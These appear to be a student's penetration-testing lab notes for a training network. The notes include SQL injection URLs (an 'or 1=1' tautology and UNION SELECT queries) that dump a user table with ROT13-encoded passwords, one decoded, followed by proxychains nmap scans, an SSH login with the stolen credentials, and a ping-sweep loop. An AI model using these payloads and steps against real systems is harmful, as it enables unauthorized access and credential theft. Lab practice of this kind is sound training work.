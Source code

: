 ```
8080/tcp filtered http-proxy
```
- open up firefox settings and change back proychains by going --> network setting --> manual proxy config --> Socks host: localhost | port 9050.
- go to 192.168.28.181 pn firefox
    - it has a bunch of inventory for various electronics. Might be able to exploit? 
    - let's try to use SQL injection to see what is vulnerable
    - start by trying to find total dump of usual database : `http://192.168.28.181/pick.php?product=7%20or%201=1` so 7 is vulnerable and use or 1=1 to find it. From there we get the 3 columns needed
    - `http://192.168.28.181/pick.php?product=7%20Union%20SELECT%20table_schema,%20column_name,%20table_name%20FROM%20information_schema.columns`
    - `http://192.168.28.181/pick.php?product=7%20Union%20SELECT%20user_id,%20name,%20username%20FROM%20siteusers.users`
```
Item 	On Hand 	Price
HAM 	32 	$15
1 	Aaron 	$Aaron
2 	user2 	$user2
3 	user3 	$user3
4 	Lroth 	$Lee_Roth
1 	ncnffjbeqlCn$$jbeq 	$Aaron
2 	RntyrfVfNER78 	$user2
3 	Obo4GURRnccyrf 	$user3
4 	anotherpassword4THEages 	$Lroth
```
- aaron password translated from ROT13 --> apasswordyPa$$word
- run nmap to see open ports for ips: `proxychains nmap -Pn 192.168.28.172 -p 135-139,22,80,443,21,8080`
- see that ssh is open, try to ssh to it using Aaron@192.168.28.172 --> brings you to RoundSensor
***
**RoundSensor**

- Perform Reconnaissance
    1. Actively scan and interact with target to find potential attack vectors.

- Attempt Exploitation || Gain Initial Access
    1. Use information gained from reconnaissance to gain access to the system. Reconnaissance from other targets within the network may have information relevant to any target.
- Find Additional Targets
    1. Perform post-exploitation tasks (situational awareness, localhost enumeration, privilege escalation, etc).
    2. Discover additional targets through analysis of information from post-exploitation tasks.
- Pivot to Found Targets
    1. Pivot through network to other targets as you find them.

### ***Start of T3 enumeration (RoundSensor Notes)***
- etc/hosts/ --> no useful ips
- `for i in {1..254};do (ping -c 1 192.168.28.$i | grep "bytes from" &); done`
```
64 bytes from 192.168.28.172: icmp_seq=1 ttl=64 time=0.031 ms
64 bytes from 192.168.28.179: icmp_seq=1 ttl=128 time=2.03 ms
64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=0.764 ms
```
***
**Windows-Workstation**
